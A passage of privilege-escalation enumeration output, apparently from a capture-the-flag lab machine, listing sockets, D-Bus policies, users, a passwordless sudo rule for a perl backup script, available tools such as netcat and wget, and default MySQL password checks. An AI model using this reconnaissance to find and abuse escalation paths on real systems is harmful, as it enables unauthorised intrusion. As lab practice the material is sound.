Thu 2022-03-24 06:18:07 EET  15h left Wed 2022-03-23 14:01:51 EET  43min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Thu 2022-03-24 14:15:47 EET  23h left Wed 2022-03-23 14:15:47 EET  29min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
n/a                          n/a      n/a                          n/a       snapd.snap-repair.timer      snapd.snap-repair.service
n/a                          n/a      n/a                          n/a       ureadahead-stop.timer        ureadahead-stop.service

╔══════════╣ Analyzing .timer files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                                 
                                                                                                                                                     
╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                                                
/etc/systemd/system/sockets.target.wants/avahi-daemon.socket is calling this writable listener: /var/run/avahi-daemon/socket                         
/etc/systemd/system/sockets.target.wants/uuidd.socket is calling this writable listener: /run/uuidd/request
/lib/systemd/system/avahi-daemon.socket is calling this writable listener: /var/run/avahi-daemon/socket
/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/syslog.socket is calling this writable listener: /run/systemd/journal/syslog
/lib/systemd/system/systemd-bus-proxyd.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request

╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                                                
/com/ubuntu/upstart-session/108/1343                                                                                                                 
/run/acpid.socket
  └─(Read Write)
/run/avahi-daemon/socket
  └─(Read Write)
/run/cups/cups.sock
  └─(Read Write)
/run/dbus/system_bus_socket
  └─(Read Write)
/run/mysqld/mysqld.sock
  └─(Read Write)
/run/php/php7.0-fpm.sock
  └─(Read Write)
/run/snapd-snap.socket
  └─(Read Write)
/run/snapd.socket
  └─(Read Write)
/run/systemd/fsck.progress
/run/systemd/journal/dev-log
  └─(Read Write)
/run/systemd/journal/socket
  └─(Read Write)
/run/systemd/journal/stdout
  └─(Read Write)
/run/systemd/journal/syslog
  └─(Read Write)
/run/systemd/notify
  └─(Read Write)
/run/systemd/private
  └─(Read Write)
/run/udev/control
/run/user/108/pulse/native
/run/user/108/systemd/private
/run/uuidd/request
  └─(Read Write)
/tmp/.X11-unix/X0
  └─(Read Write)
/tmp/dbus-ODLvhV2sdS
/tmp/dbus-QsBtiT1CMi
/var/run/avahi-daemon/socket
  └─(Read Write)
/var/run/cups/cups.sock
  └─(Read Write)
/var/run/dbus/system_bus_socket
  └─(Read Write)
/var/run/mysqld/mysqld.sock
  └─(Read Write)

╔══════════╣ D-Bus config files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                                  
Possible weak user policy found on /etc/dbus-1/system.d/avahi-dbus.conf (  <policy user="avahi">)                                                    
Possible weak user policy found on /etc/dbus-1/system.d/avahi-dbus.conf (  <policy group="netdev">)
Possible weak user policy found on /etc/dbus-1/system.d/bluetooth.conf (  <policy group="bluetooth">
  <policy group="lp">)
Possible weak user policy found on /etc/dbus-1/system.d/dnsmasq.conf (        <policy user="dnsmasq">)
Possible weak user policy found on /etc/dbus-1/system.d/kerneloops.dbus (  <policy user="kernoops">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.ColorManager.conf (  <policy user="colord">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.NetworkManager.conf (        <policy user="whoopsie">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.RealtimeKit1.conf (  <policy user="rtkit">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.network1.conf (        <policy user="systemd-network">)
Possible weak user policy found on /etc/dbus-1/system.d/org.freedesktop.resolve1.conf (        <policy user="systemd-resolve">)
Possible weak user policy found on /etc/dbus-1/system.d/pulseaudio-system.conf (  <policy user="pulse">)
Possible weak user policy found on /etc/dbus-1/system.d/wpa_supplicant.conf (        <policy group="netdev">)

╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                                  
NAME                                       PID PROCESS         USER             CONNECTION    UNIT                      SESSION    DESCRIPTION        
:1.0                                         1 systemd         root             :1.0          init.scope                -          -                  
:1.1                                       715 avahi-daemon    avahi            :1.1          avahi-daemon.service      -          -                  
:1.10                                      913 polkitd         root             :1.10         polkitd.service           -          -                  
:1.15                                      968 whoopsie        whoopsie         :1.15         whoopsie.service          -          -                  
:1.16                                      937 unattended-upgr root             :1.16         unattended-upgrades.se... -          -                  
:1.17                                     1253 lightdm         root             :1.17         lightdm.service           -          -                  
:1.18                                     1263 Xorg            root             :1.18         lightdm.service           -          -                  
:1.19                                     1287 lightdm         root             :1.19         session-c1.scope          c1         -                  
:1.22                                     1304 unity-greeter   lightdm          :1.22         session-c1.scope          c1         -                  
:1.23                                     1343 upstart         lightdm          :1.23         session-c1.scope          c1         -                  
:1.24                                     1350 indicator-bluet lightdm          :1.24         session-c1.scope          c1         -                  
:1.25                                     1349 indicator-messa lightdm          :1.25         session-c1.scope          c1         -                  
:1.26                                     1351 indicator-power lightdm          :1.26         session-c1.scope          c1         -                  
:1.27                                     1370 indicator-sessi lightdm          :1.27         session-c1.scope          c1         -                  
:1.28                                     1352 indicator-datet lightdm          :1.28         session-c1.scope          c1         -                  
:1.30                                     1403 rtkit-daemon    root             :1.30         rtkit-daemon.service      -          -                  
:1.31                                     1402 pulseaudio      lightdm          :1.31         session-c1.scope          c1         -                  
:1.32                                     1353 indicator-keybo lightdm          :1.32         session-c1.scope          c1         -                  
:1.34                                     1354 indicator-sound lightdm          :1.34         session-c1.scope          c1         -                  
:1.35                                     1347 unity-settings- lightdm          :1.35         session-c1.scope          c1         -                  
:1.36                                     1345 nm-applet       lightdm          :1.36         session-c1.scope          c1         -                  
:1.37                                     1423 upowerd         root             :1.37         upower.service            -          -                  
:1.38                                     1433 colord          colord           :1.38         colord.service            -          -                  
:1.4                                       788 systemd-logind  root             :1.4          systemd-logind.service    -          -                  
:1.43                                     1598 cupsd           root             :1.43         cups.service              -          -                  
:1.44                                     1599 cups-browsed    root             :1.44         cups-browsed.service      -          -                  
:1.45                                     1599 cups-browsed    root             :1.45         cups-browsed.service      -          -                  
:1.5                                       791 accounts-daemon[0m root             :1.5          accounts-daemon.service   -          -                  
:1.54                                     8706 busctl          www-data         :1.54         apache2.service           -          -                  
:1.8                                       787 NetworkManager  root             :1.8          NetworkManager.service    -          -                  
com.hp.hplip                                 - -               -                (activatable) -                         -         
com.ubuntu.LanguageSelector                  - -               -                (activatable) -                         -         
com.ubuntu.SoftwareProperties                - -               -                (activatable) -                         -         
com.ubuntu.SystemService                     - -               -                (activatable) -                         -         
com.ubuntu.USBCreator                        - -               -                (activatable) -                         -         
com.ubuntu.WhoopsiePreferences               - -               -                (activatable) -                         -         
fi.epitest.hostap.WPASupplicant              - -               -                (activatable) -                         -         
fi.w1.wpa_supplicant1                        - -               -                (activatable) -                         -         
org.bluez                                    - -               -                (activatable) -                         -         
org.debian.apt                               - -               -                (activatable) -                         -         
org.freedesktop.Accounts                   791 accounts-daemon[0m root             :1.5          accounts-daemon.service   -          -                  
org.freedesktop.Avahi                      715 avahi-daemon    avahi            :1.1          avahi-daemon.service      -          -                  
org.freedesktop.ColorManager              1433 colord          colord           :1.38         colord.service            -          -                  
org.freedesktop.DBus                       736 dbus-daemon[0m     messagebus       org.freedesktop.DBus dbus.service              -          -                  
org.freedesktop.DisplayManager            1253 lightdm         root             :1.17         lightdm.service           -          -                  
org.freedesktop.ModemManager1                - -               -                (activatable) -                         -         
org.freedesktop.NetworkManager             787 NetworkManager  root             :1.8          NetworkManager.service    -          -                  
org.freedesktop.PackageKit                   - -               -                (activatable) -                         -         
org.freedesktop.PolicyKit1                 913 polkitd         root             :1.10         polkitd.service           -          -                  
org.freedesktop.RealtimeKit1              1403 rtkit-daemon    root             :1.30         rtkit-daemon.service      -          -                  
org.freedesktop.UDisks2                      - -               -                (activatable) -                         -         
org.freedesktop.UPower                    1423 upowerd         root             :1.37         upower.service            -          -                  
org.freedesktop.fwupd                        - -               -                (activatable) -                         -         
org.freedesktop.hostname1                    - -               -                (activatable) -                         -         
org.freedesktop.locale1                      - -               -                (activatable) -                         -         
org.freedesktop.login1                     788 systemd-logind  root             :1.4          systemd-logind.service    -          -                  
org.freedesktop.network1                     - -               -                (activatable) -                         -         
org.freedesktop.nm_dispatcher                - -               -                (activatable) -                         -         
org.freedesktop.resolve1                     - -               -                (activatable) -                         -         
org.freedesktop.systemd1                     1 systemd         root             :1.0          init.scope                -          -                  
org.freedesktop.thermald                     - -               -                (activatable) -                         -         
org.freedesktop.timedate1                    - -               -                (activatable) -                         -         
org.opensuse.CupsPkHelper.Mechanism          - -               -                (activatable) -                         -         


                                        ╔═════════════════════╗
════════════════════════════════════════╣ Network Information ╠════════════════════════════════════════                                              
                                        ╚═════════════════════╝                                                                                      
╔══════════╣ Hostname, hosts and DNS
THM-Chal                                                                                                                                             
127.0.0.1       localhost
127.0.1.1       THM-Chal

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
nameserver 10.0.0.2
search eu-west-1.compute.internal

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                  
link-local 169.254.0.0
eth0      Link encap:Ethernet  HWaddr 02:b9:75:23:a9:29  
          inet addr:10.10.29.176  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::b9:75ff:fe23:a929/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:263976 errors:0 dropped:0 overruns:0 frame:0
          TX packets:414990 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:39233278 (39.2 MB)  TX bytes:133375867 (133.3 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:1308 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1308 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:129310 (129.3 KB)  TX bytes:129310 (129.3 KB)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                             
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                    
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               

╔══════════╣ Can I sniff with tcpdump?
No                                                                                                                                                   
                                                                                                                                                     


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Users Information ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#users                                                                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg                                                                                                                                         
netpgpkeys Not Found
netpgp Not Found                                                                                                                                     
                                                                                                                                                     
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                          
Matching Defaults entries for www-data on THM-Chal:                                                                                                  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens                                                                    
ptrace protection is enabled (1)                                                                                                                     
gdb was found in PATH

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                
                                                                                                                                                     
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                      

╔══════════╣ Users with console
guest-3myc2b:x:998:998:Guest:/tmp/guest-3myc2b:/bin/bash                                                                                             
itguy:x:1000:1000:THM-Chal,,,:/home/itguy:/bin/bash
root:x:0:0:root:/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                               
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=1000(itguy) gid=1000(itguy) groups=1000(itguy),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=107(uuidd) gid=111(uuidd) groups=111(uuidd)
uid=108(lightdm) gid=114(lightdm) groups=114(lightdm)
uid=109(whoopsie) gid=117(whoopsie) groups=117(whoopsie)
uid=110(avahi-autoipd) gid=119(avahi-autoipd) groups=119(avahi-autoipd)
uid=111(avahi) gid=120(avahi) groups=120(avahi)
uid=112(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=113(colord) gid=123(colord) groups=123(colord)
uid=114(speech-dispatcher) gid=29(audio) groups=29(audio)
uid=115(hplip) gid=7(lp) groups=7(lp)
uid=116(kernoops) gid=65534(nogroup) groups=65534(nogroup)
uid=117(pulse) gid=124(pulse) groups=124(pulse),29(audio)
uid=118(rtkit) gid=126(rtkit) groups=126(rtkit)
uid=119(saned) gid=127(saned) groups=127(saned),122(scanner)
uid=120(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=121(mysql) gid=129(mysql) groups=129(mysql)
uid=122(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=998(guest-3myc2b) gid=998(guest-3myc2b) groups=998(guest-3myc2b)
uid=999(vboxadd) gid=1(daemon[0m) groups=1(daemon[0m)

╔══════════╣ Login now
 14:44:58 up 44 min,  0 users,  load average: 1.16, 1.14, 9.67                                                                                       
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT

╔══════════╣ Last logons
                                                                                                                                                     
wtmp begins Wed Mar 23 14:07:06 2022

╔══════════╣ Last time logon each user
Username         Port     From             Latest                                                                                                    

╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I can't do it...)
                                                                                                                                                     
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
                                                                                                                                                     


                                       ╔══════════════════════╗
═══════════════════════════════════════╣ Software Information ╠═══════════════════════════════════════                                               
                                       ╚══════════════════════╝                                                                                      
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                      
/usr/bin/g++
/usr/bin/gcc
/usr/bin/gdb
/usr/bin/make
/bin/nc
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget
/usr/bin/xterm

╔══════════╣ Installed Compilers
ii  g++                                       4:5.3.1-1ubuntu1                                i386         GNU C++ compiler                          
ii  g++-5                                     5.4.0-6ubuntu1~16.04.12                         i386         GNU C++ compiler
ii  gcc                                       4:5.3.1-1ubuntu1                                i386         GNU C compiler
ii  gcc-5                                     5.4.0-6ubuntu1~16.04.12                         i386         GNU C compiler
ii  hardening-includes                        2.7ubuntu2                                      all          Makefile for enabling compiler flags for security hardening
/usr/bin/gcc

╔══════════╣ MySQL version
mysql  Ver 14.14 Distrib 5.7.28, for Linux (i686) using  EditLine wrapper                                                                            

═╣ MySQL connection using default root/root ........... No
═╣ MySQL connection using root/toor ................... No                                                                                           
═╣ MySQL connection using root/NOPASS ................. No                                                                                           
                                                                                                                                                     
╔══════════╣ Searching mysql credentials and exec
From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user              = mysql                                                                      
Found readable /etc/mysql/my.cnf
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/

╔══════════╣ Analyzing MariaDB Files (limit 70)
                                                                                                                                                     
-rw------- 1 root root 317 Nov 29  2019 /etc/mysql/debian.cnf

╔══════════╣ Analyzing Apache Files (limit 70)
Version: Server version: Apache/2.4.18 (Ubuntu)                                                                                                      
Server built:   2019-10-08T13:31:25
httpd Not Found
                                                                                                                                                     
══╣ PHP exec extensions
/etc/apache2/conf-available/php7.0-cgi.conf-                                                                                                         
/etc/apache2/conf-available/php7.0-cgi.conf:# application/x-httpd-php                        phtml pht php
/etc/apache2/conf-available/php7.0-cgi.conf:# application/x-httpd-php3                       php3
/etc/apache2/conf-available/php7.0-cgi.conf:# application/x-httpd-php4                       php4
/etc/apache2/conf-available/php7.0-cgi.conf:# application/x-httpd-php5                       php
/etc/apache2/conf-available/php7.0-cgi.conf-<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
/etc/apache2/conf-available/php7.0-cgi.conf:    SetHandler application/x-httpd-php
/etc/apache2/conf-available/php7.0-cgi.conf-</FilesMatch>
/etc/apache2/conf-available/php7.0-cgi.conf:# application/x-httpd-php-source                 phps
/etc/apache2/conf-available/php7.0-cgi.conf-<FilesMatch ".+\.phps$">
/etc/apache2/conf-available/php7.0-cgi.conf:    SetHandler application/x-httpd-php-source
--
/etc/apache2/conf-available/php7.0-cgi.conf-#</Directory>
/etc/apache2/conf-available/php7.0-cgi.conf:#Action application/x-httpd-php /cgi-bin/php7.0
--
/etc/apache2/mods-available/php7.0.conf-<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
/etc/apache2/mods-available/php7.0.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-available/php7.0.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-available/php7.0.conf:    SetHandler application/x-httpd-php-source
--
/etc/apache2/mods-enabled/php7.0.conf-<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
/etc/apache2/mods-enabled/php7.0.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-enabled/php7.0.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-enabled/php7.0.conf:    SetHandler application/x-httpd-php-source
drwxr-xr-x 2 root root 4096 Nov 29  2019 /etc/apache2/sites-enabled
drwxr-xr-x 2 root root 4096 Nov 29  2019 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Nov 29  2019 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf


-rw-r--r-- 1 root root 1332 Jun 11  2018 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
lrwxrwxrwx 1 root root 35 Nov 29  2019 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

-rw-r--r-- 1 root root 70999 Oct 24  2019 /etc/php/7.0/apache2/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 70999 Oct 24  2019 /etc/php/7.0/cgi/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 70656 Oct 24  2019 /etc/php/7.0/cli/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 70999 Oct 24  2019 /etc/php/7.0/fpm/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysqli.allow_persistent = On
pgsql.allow_persistent = On
-rw-r--r-- 1 root root 70999 Oct 24  2019 /etc/php/7.0/phpdbg/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysqli.allow_persistent = On
pgsql.allow_persistent = On

╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 1044 Sep 30  2013 /usr/share/doc/rsync/examples/rsyncd.conf                                                                   
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz


╔══════════╣ Analyzing Wifi Connections Files (limit 70)
drwxr-xr-x 2 root root 4096 Nov  2  2018 /etc/NetworkManager/system-connections                                                                      
drwxr-xr-x 2 root root 4096 Nov  2  2018 /etc/NetworkManager/system-connections


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                 
drwxr-xr-x 2 root root 4096 Nov 29  2019 /etc/ldap

drwxr-xr-x 2 root root 4096 Nov 29  2019 /usr/share/php7.0-ldap/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/apache2/enabled_by_maint/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/cgi/enabled_by_maint/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/cli/enabled_by_maint/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/fpm/enabled_by_maint/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/phpdbg/enabled_by_maint/ldap

-rw-r--r-- 1 root root 0 Nov 29  2019 /var/lib/php/modules/7.0/registry/ldap


╔══════════╣ Searching ssl/ssh files
find: './systemd-private-94fcdd9e9e564f728851328f6ecd9ca4-rtkit-daemon.service-gUBAOm': Permission denied                                            
find: './systemd-private-94fcdd9e9e564f728851328f6ecd9ca4-colord.service-9Yukx0': Permission denied
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes

══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml

gpg-connect-agent: no running gpg-agent - starting '/usr/bin/gpg-agent'
gpg-connect-agent: failed to create temporary file '/var/www/.gnupg/.#lk0x01c8f630.THM-Chal.9751': No such file or directory
gpg-connect-agent: can't connect to the agent: No such file or directory
gpg-connect-agent: error sending standard options: No agent running
══╣ Some home ssh config file was found
/usr/share/doc/openssh-client/examples/sshd_config                                                                                                   
AuthorizedKeysFile      .ssh/authorized_keys
Subsystem       sftp    /usr/lib/openssh/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow                                                                                                                                     


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

╔══════════╣ Analyzing PAM Auth Files (limit 70)
drwxr-xr-x 2 root root 4096 Nov 29  2019 /etc/pam.d                                                                                                  
-rw-r--r-- 1 root root 2133 Mar  4  2019 /etc/pam.d/sshd


╔══════════╣ Passwords inside pam.d
/etc/pam.d/lightdm:auth    sufficient      pam_succeed_if.so user ingroup nopasswdlogin                                                              


╔══════════╣ Analyzing Cloud Credentials Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb 27  2019 /usr/share/help/C/web-credentials                                                                           


╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb 27  2019 /usr/share/keyrings                                                                                         
drwxr-xr-x 2 root root 4096 Feb 27  2019 /var/lib/apt/keyrings


╔══════════╣ Analyzing Backup Manager Files (limit 70)
                                                                                                                                                     
-rwxrwxrwx 1 www-data www-data 2885 Sep 19  2016 /var/www/html/content/_plugin/app/inc/database.php
<form method="post" id="bulk_form" action="<?php echo pluginDashboardUrl(THIS_APP,array('app_mode'=>'database','mode'=>'bulk'));?>">
<a title="<?php _e('Delete');?>" class="action_delete" href="javascript:void(0);"><?php _e('Delete');?></a> <a title="<?php _e('Modify');?>" class="action_modify" href="<?php echo pluginDashboardUrl(THIS_APP,array('app_mode'=>'database','mode'=>'insert','id'=>$row['id']));?>"><?php _e('Modify');?></a> 
<input type="button" value="<?php _e('Create');?>" class="back" url="<?php echo pluginDashboardUrl(THIS_APP,array('app_mode'=>'database','mode'=>'insert'));?>">

╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd                                                                                                                       
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ Analyzing PGP-GPG Files (limit 70)
/usr/bin/gpg                                                                                                                                         
gpg Not Found
netpgpkeys Not Found                                                                                                                                 
netpgp Not Found                                                                                                                                     
                                                                                                                                                     
-rw-r--r-- 1 root root 12255 Feb 27  2019 /etc/apt/trusted.gpg
-rw-r--r-- 1 root root 4114 Jun 14  2018 /usr/share/gnupg2/distsigkey.gpg
-rw-r--r-- 1 root root 12335 May 19  2012 /usr/share/keyrings/ubuntu-archive-keyring.gpg
-rw-r--r-- 1 root root 0 May 19  2012 /usr/share/keyrings/ubuntu-archive-removed-keys.gpg
-rw-r--r-- 1 root root 2253 Nov  5  2017 /usr/share/keyrings/ubuntu-esm-keyring.gpg
-rw-r--r-- 1 root root 1139 Nov  5  2017 /usr/share/keyrings/ubuntu-fips-keyring.gpg
-rw-r--r-- 1 root root 1227 May 19  2012 /usr/share/keyrings/ubuntu-master-keyring.gpg
